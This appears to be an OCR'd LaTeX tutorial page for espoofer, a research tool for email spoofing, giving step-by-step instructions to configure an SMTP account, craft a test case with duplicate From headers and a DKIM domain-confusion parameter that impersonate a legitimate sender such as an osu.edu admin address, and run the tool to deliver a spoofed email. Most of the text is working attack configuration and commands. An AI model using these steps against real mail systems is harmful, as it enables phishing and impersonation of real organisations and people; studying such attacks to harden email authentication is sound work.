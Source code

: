 \documentclass[11pt]{article}
\newcommand{\espoofer}{{\sf espoofer}\xspace}
\begin{document}
\begin{enumerate}
\item Open the \espoofer folder and edit \texttt{config.py} using the registered account and App Password. 

\begin{lstlisting}
config ={
	"legitimate_site_address": b"fakeadmin@osu.edu",  # the spoofed email address 
	"victim_address": b"attacker@fastmail.com", # Your account username
	"case_id": b"client_a1",

	"client_mode": {
		"sending_server": ("smtp.fastmail.com", 587),  # SMTP sending serve ip and port
		"username": b"attacker@fastmail.com", # Your account username and App password
		"password": b"App Password",
	},
}

\end{lstlisting}\vspace{-6mm}

\item Edit \texttt{testcases.py} to customize the content and the subject of your spoofing email.
\begin{lstlisting}
"client_a1": {
	        "helo": b"espoofer-MacBook-Pro.local",
	        "mailfrom": b"<attacker@example.com>",
	        "rcptto": b"<victim@victim.com>",
	        # "dkim_para": {"d":b"legitimate.com(.attack.com", "s":b"selector", "sign_header": b"From: <ceo@legitimate.com>"},
	        "data": {
	            "from_header": b"From: <attacker@example.com>\r\nFrom: <admin@example.com>\r\n",
	            "to_header": b"To: <victim@victim.com>\r\n",
	            "subject_header": b"Subject: client A1: Multiple From headers\r\n",
	            "body": b"Hi, this is a test message! Best wishes.\r\n", # Content and Subject
	            "other_headers": b"Date: " + get_date() + b"\r\n" + b'Content-Type: text/plain; charset="UTF-8"\r\nMIME-Version: 1.0\r\nMessage-ID: <1538085644648.096e3d4e-bc38-4027-b57e-' + id_generator() + b'@message-ids.attack.com>\r\nX-Email-Client: https://github.com/chenjj/espoofer\r\n\r\n',
	        },
	        "description": b"Spoofing via an email service account using multiple From headers, refer to section 6.2 in the paper."
	    }  
\end{lstlisting}\vspace{-6mm}

\item Run \espoofer and you will receive a spoofed email in your inbox. Have fun!
\begin{lstlisting}
$ python3 espoofer.py -m c -id client_a1
\end{lstlisting}\vspace{-6mm}


\end{enumerate}
\end{document}

